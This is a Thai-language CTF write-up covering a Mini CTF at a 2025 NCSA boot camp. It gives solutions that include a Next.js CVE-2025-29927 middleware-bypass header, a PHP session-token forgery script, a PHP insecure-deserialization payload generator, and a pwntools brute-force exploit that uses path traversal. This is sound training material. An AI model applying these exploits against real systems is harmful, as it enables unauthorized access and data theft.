


Write-ups การแข่งขัน Mini CTF ในกิจกรรม CTF Boot Camp 2025 รุ่นที่ 4 จังหวัดอุบลราชธานี จัดโดย NCSA ระหว่างวันที่ 19-20 July 2025


`21/07/2025 14:57`

นอยครับ ทีมได้ที่ 2 😂 `Sn!ff&Sp00f`

หลักๆเกิดจากมองไม่เห็นละไม่คิดว่ามันง่ายๆครับ คือนั้นแหละ สองข้อที่ผมทำไม่ได้ วิธีทำมันง่ายกว่าข้อที่ผม solve อีก เส้นผมบังโลกชัดๆ

เอาละ หลังจากงานจบ แต่ผมไม่จบผมไล่ sovle จนหมดทุกข้อ ซึ่งบาง challenge สามารถหา writeup ได้เพราะเป็น challenge เก่า ซึ่งบ้างข้อผมเองก็ไม่แน่ใจ

# Challenges

- Misc (3)
- Web (4)
- Network (3)
- Forensics (3)
- Mobile (1)
- Prog (1)

---

# Misc 0

_For sanity check, you have free flag here._ \
_STH{20cda557cfa098c65f372b745e11a21e}_

ครับ...

# Misc 2

_XOR message below with a letter._ \
_Message: 00071b283735323237366a37303232616b353062656036326463643136313566616364642e_


`STH{dfaade9dcaa28fc163ea707bebf52077}`

# Misc 3

_Base64 is too easy. I have applied 3 BaseXX encoding to the message below._ \
_Message: SFcUFnKydQ9L1q6jfZXKvbZVY3uQPyENV2g4WveejUrptAkcru4pRbMP8ceGxhe9DMoptJen43SwYrDi5mBDMFN1wadt439ZjbNS6QbtBBPvuCTH4Vp5A8h1b4zbgnaMUV4_


`STH{dfaade9dcaa28fc163ea707bebf52077}`

# Web 0

_Find flag in HTTP responses of [sth.sh](https://sth.sh)_ \
_Flag จะอยู่ในรูปแบบ {...} ให้หาค่ามาใส่ใน ... ที่ถูกต้อง ตัวอย่างเช่น {PENTEST}_

ปล่อยเป็นความลับต่อไปดีกว่า

Hint: ถ้ามาถูกทางแล้วจะเจอ flag ถ้าเจอแล้วแสดงว่ามาถูกทาง

# Web 1

_แฮกระบบเป็นผู้ดูแลระบบโดยใช้ช่องโหว่ CVE ที่เปิดเผยสู่สาธารณะ_ \
_คำใบ้:_ \
_เว็บพัฒนาด้วย Next.js_ \
_CVE-2025-29927_

**Didn't solve it in time during the competition.**


โยนลง burp suite แล้วเพิ่ม `X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware` ลง header

`flag{CVE-2025-29927_3b9950ce0ea6cc9c1666f2598bd8aca1}`

::github{repo="MuhammadWaseem29/CVE-2025-29927-POC"}

# Web 2

_แฮกเว็บเพื่อเข้าสู่ระบบ_


มี php code อยู่ใน comment


คุ้นๆ เหมือนเคยเห็นที่ไหนมาก่อน

**Not So Secret** ใน **THCTT 2024** นั้นเองครับ

แวะอธิบายสักนิด วิธีคือ ตัว server check session จาก cookie แต่ๆ cookie check โดยใช้ค่าจาก create function มาเทียบ ซึ่ง create function ใช้ secret key เป็น timestamp ซึ่ง ใช่ฮะ มันไม่ควรเป็นแบบนั้น

เราก็แค่สร้างมันขึ้นมาเองโดยรัน code เฉยๆนิแหละ


<details>
<summary><b>gen-token.php</b></summary>

```php
<?php

function create_session_token($username, $timestamp){
    $date_component = date('Y-m-d', $timestamp); 
    $hour_component = date('H', $timestamp);
    $minute_component = floor(date('i', $timestamp) / 10);
    
    $secret_key = hash('sha256', $date_component . $hour_component . $minute_component);
    
    $session_token = hash_hmac('sha256', $username, $secret_key);

    return $session_token;
}

$timestamp = 1000000000;
$token = create_session_token("moo.deng", $timestamp);

echo "document.cookie=\"session_timestamp=" . $timestamp . "; path=/\"\n";
echo "document.cookie=\"session_token=" . $token . "; path=/\"\n";
```

</details>


แล้วแปะลงเลย

`flag{e87877085eec8edf7f62a8ae8672a70a}`

# Web 3

_โจมตีช่องโหว่ Insecure deserialization_

**Didn't solve it in time during the competition.**



เอาละ มันคือ PHP Insecure deserialization ซึ่ง ผมไม่เคยทำฮะ เลยต้องมานั่ง research จนสรุปได้ว่า

code ที่มีปัญหา


มันมีเพราะว่า `'\0'` มันไม่ทำงานตามที่ต้องการนะสิ เจ้านี้ยาว 2 bytes เลยนะ ถ้าอยากจะให้มันทำงานตามที่ต้องการจริงจะใช้เป็น `"\0"` แต่สุดท้ายแล้วก็ไม่ควรใช้ string replace ในการ encapsulate สั้นๆแบบนี้ เพราะจะโดนใช้เป็นช่องโหว่ความยาวของข้อมูลได้

เอาละ จากบรรทัดนี้สิ่งที่เกิดขึ้นคือเมื่อมีผู้ใช้กรอก `\0` ที่เป็น string นะไม่ใช่ null byte จะโดน replace เป็น `0x00`

สิ่งที่ตามมาคือความยาวใน data จะไม่ตรงกับที่ serialize ระบุใน data ไว้ ส่งผลให้ unserialize ทำงานผิดพลาดได้

แล้วไงต่อ ? เห็น class ด้านล่างไหม `MilitaryHacker` ตรง `__destruct` เหมือนจะมี if flag ด้วยแหละ flag น่าจะอยู่ในนั้น แต่มัน decrypt ไงอันนี้ผมขอข้าม เพราะผมจะเดินตามทางละกัน

สรุปคือเราต้องการ call `__destruct` ใน `MilitaryHacker` ครับ

ตัว unserialize จะถือเป็นตัวสร้าง object ขึ้นมาโดยไม่ call `__construct` (new object ปกติมันจะเรียก method นี้) แต่เมื่อ object ถูก unset จะ call `__destruct` ครับ

โดยเราจะเอา object `MilitaryHacker` ที่ serialize แล้วพร้อมกับกำหนด count เป็น `flag.txt` ยัดเขาไปใน `UserSessionz` ครับ ซึ่งแน่นอนว่ามันจะ error แต่ เราขอแค่ให้มันสร้าง object `MilitaryHacker` จาก unserialize ได้สำเร็จแล้วมัน unset ก็สำเร็จแล้วครับ

โดย code นี้ผมใช้ในการ craft payload ครับ โดย concept คือสร้างลองสร้าง data ที่โดน payload เพื่อทดสอบว่าใช้งานได้ โดยจะคำนวนว่าต้องใส่ `\0` เข้าไปกี่ตัวแล้วสร้าง payload ให้เลย

<details>
<summary><b>payload-cal.php</b></summary>

```php
<?php
class UserSessionz
{
    protected $user;
    public $role;
    function __construct($user, $role)
    {
        $this->user = $user;
        $this->role = $role;
    }
}

class MilitaryHacker
{
    protected $tmp;
    protected $count = "flag.txt";
    protected $len;

    function __construct($tmp)
    {
        $this->tmp = $tmp;
        echo "__construct\n";
    }

    function __destruct()
    {
        echo "__destruct\n";
        if ($this->count === "flag.txt") {
            echo "__destruct condition\n";
        }
    }
}

$target = new MilitaryHacker("");
$payload = '";s:3:"inj";' . serialize($target) . '"';

echo "Unsetting target object...\n";
unset($target);
echo "Unsetted target object. Please do not be confused.\n";

$padding = strlen($payload) / 2;

echo "Padding length: " . $padding . "\n";

if (is_float($padding)) {
    trigger_error("Padding is not an integer", E_USER_ERROR);
}

$user = str_repeat('\0', $padding);
$pass = $payload;

echo "User: " . $user . "\n";
echo "Pass: " . encap($pass) . "\n";

$sess = new UserSessionz($user . $pass, "user");
$data = serialize($sess);

echo "Object serialized           : " . encap($data) . "\n";

$data_escaped = str_replace('\0', '0x00', $data);

echo "Escaped object serialized   : " . encap($data_escaped) . "\n";
echo "======== UNSERIALIZE ========\n\n";

$sess = unserialize($data_escaped);

echo "========== PAYLOAD ==========\n\n";
echo "user=" . urlencode($user) . "&pass=" . urlencode($pass) . "\n";
echo "\nIf the php unserialize output contains '__destruct' and '__destruct condition' then the payload works.\n";
```

</details>


โดยเราจะ login ด้วย user/pass อะไรก็ได้ เสร็จแล้ว logout (เก็บ request ไว้) แล้วส่ง `post_login.php` ไป repeater


เสร็จแล้วก็กลับมา F5 เลยฮะ


`STH{b74cf61d1b95e9a96f3f96f78c561ba3}`

# Network 1

_🕵️ Incident 07-PhantomLink:_ \
_เมื่อช่วงเช้ามืดของวันจันทร์ เจ้าหน้าที่ศูนย์ SOC (Security Operations Center) ได้รับการแจ้งเตือนจากระบบ Threat Intelligence ว่ามีการเชื่อมต่อออกไปยังปลายทางต้องสงสัยจากเครื่องของพนักงานภายในบริษัท ข้อมูลหลายรายการถูกส่งออกอย่างเงียบ ๆ ผ่านช่องทางที่ไม่ได้รับอนุญาต_
\
_หลังจากการตรวจสอบเบื้องต้น ทีม Blue Team พบว่ามีไฟล์แนบในอีเมลฉบับหนึ่งที่น่าสงสัย ซึ่งถูกเปิดโดยหนึ่งในพนักงานเมื่อไม่กี่วันก่อน และนั่นอาจเป็นจุดเริ่มต้นของเหตุการณ์ทั้งหมด..._
\
_ภารกิจของคุณ:_ \
_ในฐานะ Threat Hunter อิสระที่ถูกว่าจ้างโดยทีม IR (Incident Response) คุณได้รับชุดข้อมูลและหลักฐานที่เกี่ยวข้องกับเหตุการณ์นี้ จงวิเคราะห์หลักฐาน ตรวจสอบขั้นตอนการโจมตี และค้นหาความจริงเบื้องหลังการรั่วไหลของข้อมูล_
\
_🧩 Flag ถูกแบ่งออกเป็น 2 ส่วน และซ่อนอยู่ในจุดต่าง ๆ ของเหตุการณ์ คุณจะต้องค้นหาทั้งสองส่วนให้พบ และรวมกันอย่างถูกต้องจึงจะผ่านภารกิจนี้ได้_

สำหรับข้อนี้ ได้ไฟล์ pcap มา ซึ่ง strings แล้วมองตาเปล่าได้เลย

`Part 1`


`Part 2`




`flag{junior_net1_dd10648eee2bf2d718930c9b2fbebae1}`

# Network 2

_🕵️ Operation ShadowStream:_ \
_หลายเดือนหลังจาก “BlackPhantom” แฮกเกอร์ชื่อกระฉ่อนถูกจับกุมกลางสนามบิน เหล่าแนวร่วมในโลก Dark Web ก็เริ่มปรับเปลี่ยนแผนการโจมตี พวกเขาใช้เทคนิคที่แนบเนียนขึ้น — ไม่มีมัลแวร์ชัดเจน ไม่มีไฟล์แนบ ไม่แม้แต่โดเมนต้องสงสัย แต่ “อะไรบางอย่าง” ก็ยังหลุดออกไปจากระบบองค์กร…_ \
\
_ศูนย์ข่าวกรองไซเบอร์สากล (Global Cyber Intel Unit) ได้สกัดไฟล์ PCAP จากระบบเป้าหมายในช่วงเวลาสำคัญ พร้อมแนบ Private Key ที่เชื่อว่าเกี่ยวข้องกับการถอดรหัสการสื่อสารระหว่างแฮกเกอร์และเหยื่อ_ \
\
_ภารกิจของคุณ:_ \
_ในฐานะอดีตแชมป์การแข่งขัน Cybersecurity ระดับประเทศ คุณถูกเรียกตัวเข้าร่วมภารกิจลับเพื่อวิเคราะห์ทราฟฟิกในไฟล์ PCAP นี้ หาความผิดปกติ วิเคราะห์รูปแบบการหลบเลี่ยงการตรวจจับ และค้นหาเบาะแสที่แฮกเกอร์ทิ้งไว้ 🔐 Flag ถูกซ่อนอยู่ในเงามืดของข้อมูลที่ถูกเข้ารหัส ใช้ private\_key.pem ที่แนบมาให้เป็นประโยชน์ และเปิดโปงความจริงให้โลกได้เห็น!_  \
\
_คำใบ้:_ \
_rsa\_padding\_mode:oaep_ \
_rsa\_oaep\_md:sha256_


base64 ครอบมา พอถอด base64 แล้วเป็น bin แล้วต่อด้วย decrypt


`flag{junior_net2_8a95ca672a65f751efd70d1340cf835a}`

# Network 3

_🏥 Operation SilentPulse:_ \
_กลางดึกในคืนหนึ่ง ระบบตรวจจับภัยคุกคามของโรงพยาบาลเอกชนชื่อดังแห่งหนึ่งส่งสัญญาณเตือนแบบผิดปกติ — ไม่มีมัลแวร์ ไม่มีการบุกรุกแบบรุนแรง แต่กลับมีข้อมูลบางอย่าง “ไหลออก” อย่างเงียบ ๆ โดยไม่ผ่านการบล็อคจาก Firewall ใดเลย_ \
\
_หลังการวิเคราะห์เบื้องต้น ทีม SOC พบว่าเหตุการณ์ครั้งนี้เป็น การโจมตีแบบ Advanced Data Exfiltration ซึ่งมีความซับซ้อนสูง และสามารถหลบหลีกอุปกรณ์ความมั่นคงปลอดภัยยุคใหม่ได้อย่างแนบเนียน_ \
\
_ในฐานะนักศึกษาฝึกงานภาคฤดูร้อน ประจำแผนก Cybersecurity ของโรงพยาบาล คุณได้รับมอบหมายภารกิจพิเศษจากหัวหน้าแผนก:_ \
\
_“ช่วยดู PCAP ไฟล์นี้หน่อยสิ น้องอาจจะเห็นอะไรที่เรายังมองไม่ออก...”_ \
\
_ภารกิจของคุณ:_ \
_เจาะลึกลงใน Network Traffic ตรวจสอบรูปแบบการขโมยข้อมูล และค้นหาว่า “ข้อมูลอะไร” ถูกแฮกเกอร์นำออกไป Flag ที่คุณต้องหาคือสิ่งที่ถูกขโมยออกจากระบบ — ถ้าคุณวิเคราะห์ได้แม่นยำพอ มันจะปรากฏต่อหน้าคุณอย่างชัดเจน_ \
\
_📁 ไฟล์ PCAP ได้แนบมาพร้อมแล้ว — เหลือแค่ความสามารถของคุณที่จะ “ฟังเสียงของข้อมูลที่ไร้เสียง” ให้ได้ยิน_


โฮววว ไม่เจอกันนานเลยนะ DNS Data Exfiltration เอาจริง description มันก็บอกอยู่แต่ไม่ยอมอ่านฮะ 555

เริ่มจากตัดเอา URL safe Base64 ออกมา

```sh
tshark -r minictf_net3.pcapng -T fields -e dns.qry.name -Y 'ip.src == 192.168.191.111' > data.txt
```


ลอง decode ออกมาจะพบกับ size ของข้อมูล และ prefix บอกว่า data นี้เป็นชิ้นที่เท่าไหร่ เราก็จะทำการตัดและ sort(ถ้า dump จาก ip คนส่งมันจะตรงอยู่แล้ว) มันกัน

เสร็จแล้วก็ใช้เวทมนต์


> ตอนแข่งเอา python process string ไปก่อนเลยไม่ท่ายากขนาดนี้หรอก

`flag{junior_net3_f6d88d30edb0f5c15045b61c3232155a}`

# Forensics 1

_🚔 Case File: Digital Echoes_ \
_จากการปฏิบัติการตรวจค้นของหน่วยปราบปรามอาชญากรรมไซเบอร์ เจ้าหน้าที่สามารถยึดเครื่องคอมพิวเตอร์ของผู้ต้องสงสัยได้หนึ่งเครื่อง ซึ่งคาดว่าใช้เป็นเครื่องมือในการวางแผนและเตรียมการโจมตีทางไซเบอร์_ \
\
_ในการตรวจสอบเบื้องต้น เจ้าหน้าที่พบว่ามี Web Browser แบบเฉพาะทางติดตั้งอยู่ในเครื่อง พร้อมกับข้อมูลการใช้งานบางส่วนที่ยังไม่ถูกลบ ทีมสืบสวนเชื่อว่าผู้ต้องสงสัยได้ใช้เบราว์เซอร์นี้ในการค้นหาข้อมูลบางอย่างเพื่อประกอบการกระทำความผิด_ \
\
_ภารกิจของคุณ:_ \
_ในฐานะผู้เชี่ยวชาญด้าน Cybersecurity ที่ได้รับแต่งตั้งจากศาลให้เป็นผู้ตรวจสอบดิจิทัล (Digital Forensics Expert) คุณได้รับไฟล์หลักฐานที่เกี่ยวข้องกับโปรไฟล์ของ Web Browser ดังกล่าว_ \
\
_🔍 วิเคราะห์ประวัติการใช้งาน คุกกี้ แคช หรือไฟล์อื่น ๆ ที่เกี่ยวข้อง เพื่อค้นหาให้ได้ว่า “ผู้ต้องสงสัยพยายามค้นหาข้อมูลอะไร?”_ \
\
_🧩 Flag ซ่อนอยู่ในร่องรอยการใช้งานของเบราว์เซอร์ — อาจจะเป็นข้อความค้นหา (Search Query), URL, หรือเบาะแสใดที่บ่งบอกถึงเจตนาของผู้ใช้_

คำค้นหา ????

`places.sqlite`


ok...

`flag{open_for1_6e656803650f0c539dcfb103a87fa04f}`

# Forensics 2

_🧨 Operation: LNK Injection_ \
_ในช่วงไม่กี่วันที่ผ่านมา ThaiCERT ได้ออกประกาศแจ้งเตือนถึงภัยคุกคามรูปแบบใหม่ — การโจมตีที่ใช้ ไฟล์ Shortcut (.lnk) ของ Windows เป็นตัวนำร่องในการฝังมัลแวร์ โดยเหยื่อไม่จำเป็นต้องเปิดไฟล์แปลก ๆ ใด ๆ แค่ “ดับเบิลคลิกทางลัด” บนหน้า Desktop ก็เพียงพอที่จะเปิดประตูให้แฮกเกอร์เข้าระบบ_ \
\
_ขณะที่ทุกคนในแผนกยังไม่ทันตั้งตัว คุณกลับสังเกตเห็นอะไรบางอย่าง... มีไฟล์ Shortcut แปลก ๆ โผล่มาบน Desktop ของคุณเอง โดยไม่มีใครยอมรับว่าเป็นคนสร้างมันขึ้นมา!_ \
\
_ภารกิจของคุณ:_ \
_ในฐานะพนักงานผู้รอบคอบแห่งแผนก IT Security คุณตัดสินใจไม่คลิกสุ่มสี่สุ่มห้า แต่จะลงมือวิเคราะห์ไฟล์ด้วยตัวเอง_ \
\
_🔍 ตรวจสอบไฟล์ Shortcut (.lnk) ที่น่าสงสัยนี้อย่างละเอียด:_ \
_มันพยายามรันคำสั่งอะไรอยู่เบื้องหลัง?_ \
_มีโค้ดหรือ Command แปลก ๆ ถูกซ่อนไว้หรือไม่?_ \
_มันชี้ไปที่โปรแกรมหรือ Script ใดที่อาจเป็นอันตราย?_ \
\
_🧩 Flag จะปรากฏเมื่อคุณถอดรหัสความลับใน Shortcut ได้สำเร็จ ระวังให้ดี บางครั้งสิ่งที่ดูเหมือน “ทางลัด” อาจกลายเป็น “ทางรั่ว”_


lnkinfo เลยฮะ


ด้วยพลัง magic

`flag{open_for2_b665b337e584329a33f95b1aa05df1bb}`

# Forensics 3

_💉 Incident 091 - RansomRx:_ \
_โรงพยาบาลเอกชนแห่งหนึ่งเผชิญวิกฤตหนัก — ระบบเวชระเบียนของผู้ป่วยถูกเข้ารหัสโดย แรนซัมแวร์ ทำให้การรักษาทางการแพทย์ต้องชะงักลง ผู้ป่วยฉุกเฉินต้องถูกส่งต่อไปยังโรงพยาบาลใกล้เคียง ในขณะที่หน้าจอของ Server แสดงเพียงข้อความเรียกค่าไถ่…_ \
\
_ทีม IR (Incident Response) พบว่า Windows Server ที่ใช้เก็บข้อมูลสำคัญคือจุดเริ่มต้นของการโจมตี แต่ระบบ SIEM และ Antivirus ถูกปิดการทำงานก่อนหน้าหลายชั่วโมง ทำให้หลักฐานแทบทั้งหมดหายไป_ \
\
_เว้นแต่ว่า… ไฟล์ Windows Event Log ยังคงอยู่ และอาจเป็นกุญแจสำคัญเพียงหนึ่งเดียวที่บอกได้ว่า แฮกเกอร์ใช้ช่องทางใด และส่ง Payload อะไรมาก่อเหตุ_ \
\
_ภารกิจของคุณ:_ \
_ในฐานะ Digital Forensics Analyst คุณได้รับไฟล์ Windows Event Log มาจากหน่วย IR พร้อมกับคำสั่งภารกิจเร่งด่วน:_ \
_“ตรวจสอบให้เจอว่า Attack Payload ถูกนำเข้ามาได้อย่างไร — ถ้าเจอรายละเอียดได้มากพอ เราอาจหาทางย้อนรอยไปถึงต้นตอของการโจมตีได้”_ \
\
_🔍 เจาะลึก Windows Event Log เพื่อหาหลักฐานเกี่ยวกับ:_ \
_Process ที่น่าสงสัย_ \
_การรัน PowerShell หรือ Script ที่ผิดปกติ_ \
_บันทึกเหตุการณ์การล็อกอินที่ไม่ปกติ_ \
_รายการไฟล์หรือ Registry ที่ถูกเปลี่ยนแปลง_ \
\
_🧩 Flag ซ่อนอยู่ในรายละเอียดของ Payload ที่แฮกเกอร์ใช้โจมตี คุณต้องรวมจิ๊กซอว์ทั้งหมดจาก Event Logs เพื่อไขปริศนานี้ให้สำเร็จ_

**Didn't solve it in time during the competition.**

ผมหาไม่เจอฮะ เลยไปถามพี่ [@willywotz](https://github.com/willywotz) มา คือ convert เป็น csv แล้ว search เจอเลย 🤨


`flag{open_for3_226c8a00a1aca055a0215aa505d4211d}`

ไม่น่าอยู่คนละทีมเลย 😂

::github{repo="omerbenamram/EVTX"}

# Mobile 1

_A malicious mobile application, contains a secret flag 1 inside. Extract the apk file and find it._

งาน **WTCTT 2023** ประกอบไปด้วย 2 flag คืออยู่ในไฟล์และ server สำหรับ MiniCTF จะไม่มี server เนื่องจาก check dns แล้วไม่มี domain name ตามที่ระบุในไฟล์ เลยสรุปได้ว่าเป็น flag ในไฟล์

ใช้ apktool decode ออกแล้วจะเจอใน `res/values/strings.xml`


base32

`WTCTT2023_MOB01{53e8abe8bd5d0c48208dd7f816a01cd6}`

# Prog 1

_เขียนโค้ดเพื่อเจาะระบบ Anti-Virus ขโมยไฟล์ flag ที่ Path \/flag.txt ในเซิร์ฟเวอร์ออกมา_

**Didn't solve it in time during the competition.**

โปรแกรม scan virus แบบได๋


สรุปได้ว่า ตัว program จะ scan ไฟล์ตาม test length ที่กำหนด โดยเอา data ยาว n ไป hash md5 แล้วมาเทียบ ถ้าตรงจะบอกว่า `Found a virus!` โดย challenge นี้จะออกแนวๆเหมือนๆ challenge check prefix flag ไรงี้ แต่จะยากกว่าคือต้องเข้าใจ logic ก่อน

เราจะทำการ ใช้ developer mode ด้วย `1337` ซึ่งจะอนุญาตให้เราใช้ `Set file content length` ซึ่งนี้คือสิ่งที่เราจะใช้

โดยขั้นตอนจะมีดังนี้

1. set content length (ความยาว flag ที่กำลังเดา)
2. clear signatures (ลบค่าอันเก่าทิ้ง)
3. add signatures (เดา prefix flag แล้ว hash md5)
4. scan

<details>
<summary><b>resolver.py</b></summary>

```py
from pwn import remote
from hashlib import md5

def hash_md5(s: str) -> str:
    return md5(s.encode()).hexdigest()

r = remote("", 0)

r.recvuntil(b"Enter your choice: ")
r.sendline(b"1337")
r.recvuntil(b"Developer mode is activated.")
print("Developer mode activated.")

def set_prefix(s: str) -> None:
    r.sendline(b"2")
    r.recvuntil(b"Enter your choice: ")
    r.sendline(b"4")
    r.recvuntil(b"New content length: ")
    r.sendline(str(len(s)).encode())
    r.recvuntil(b"Enter your choice: ")
    r.sendline(b"3")
    r.recvuntil(b"Enter your choice: ")
    r.sendline(b"2")
    r.recvuntil(b"New varient: ")
    r.sendline(b"test")
    r.recvuntil(b"MD5 Hash: ")
    r.sendline(hash_md5(s).encode())
    r.recvuntil(b"Enter your choice: ")
    r.sendline(b"5")
    print(f"MD5: {hash_md5(s)} for {s}")

def check() -> bool:
    r.recvuntil(b"Enter your choice: ")
    r.sendline(b"1")
    data = r.recvuntil(b"Enter your choice: ")
    if b"Found a virus! Variant: test" in data:
        return True
    elif b"Path error." in data:
        raise Exception("Path error encountered.")
    return False

chars = "abcdefHST0123456789{}"
curr_prefix = ""

r.recvuntil(b"Enter your choice: ")
r.sendline(b"2")
r.recvuntil(b"Enter your choice: ")
r.sendline(b"1")
r.recvuntil(b"New path: ")
r.sendline(b"/../")
r.recvuntil(b"Enter your choice: ")
r.sendline(b"5")
r.recvuntil(b"Enter your choice: ")

while True:
    print(f"Current prefix: {curr_prefix}")
    for c in chars:
        set_prefix(curr_prefix + c)
        if check():
            curr_prefix += c
            print(f"Breaking on character: {c}")
            break
    else:
        print("No more characters found, exiting.")
        break

print(curr_prefix)
```

</details>

description บอกว่าเป็น `/flag.txt` ใช่ไหม ความจริงคือเป็น `flag-xxx.txt` ตางหาก ซึ่งไม่เป็นปัญหา เราแก้โดยการให้มัน list dir เอาเลย เราแค่เดา prefix ไปเรื่อยๆก็พอ


`STH{52ef257c21f63833e22e8abd1ac010ce}`

---

จบกันไปแล้วฮะ ซึ่งผมก็แอบดีใจนะที่ได้ MVP เพราะไปแย่งน้องในทีมมา 555 แต่น้องคนเล็กสุดเขาก็เอาเรื่องเหมือนกันนะ อายุกับทักษะสวนทางกันสุดๆ (เก่งเกินวัย) และก็ทุกคนพยายามกันมาก ส่วนผมก็ไม่ได้ตามไปดูอะ เพราะมัวแต่พยายามไล่ solve 🥹 ซึ่งก็ตัน 30 นาทีสุดท้ายไปต่อไม่เป็น เลยจบที่ทีมอันดับที่ 2 แงงงงง แต่ยังไงก็ thank you ทั้งสองมากที่พยายามช่วยกัน

เจอกัน event หน้าฮะ
